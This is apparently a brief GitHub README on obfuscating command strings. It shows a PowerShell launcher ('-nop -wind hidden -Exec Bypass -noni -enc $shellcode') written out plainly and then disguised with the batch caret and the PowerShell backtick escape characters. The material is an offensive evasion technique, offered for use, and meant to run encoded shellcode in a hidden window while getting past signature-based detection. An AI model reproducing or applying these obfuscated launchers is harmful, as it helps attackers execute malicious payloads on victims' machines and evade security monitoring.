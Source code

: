 <br />

# SIMPLE STRING OBFUSCATION TECNICS


### batch

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **batch escape caracter** ^<br />

- string obfuscated<br />
`cm^d.e^xe /c po^w^er^shel^l.ex^e -n^op -w^i^nd h^idd^en -Ex^e^c B^yp^a^ss -no^n^i -en^c $shellcode`<br />

---

### bash


---

### powershell

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **batch escape caracter** `<br />

- string obfuscated<br />
cm\`d.e\`xe /c po\`w\`er\`shel\`l.ex\`e -n\`op -w\`i\`nd h\`idd\`en -Ex\`e\`c B\`yp\`a\`ss -no\`n\`i -en\`c $shellcode<br />

---

<br />
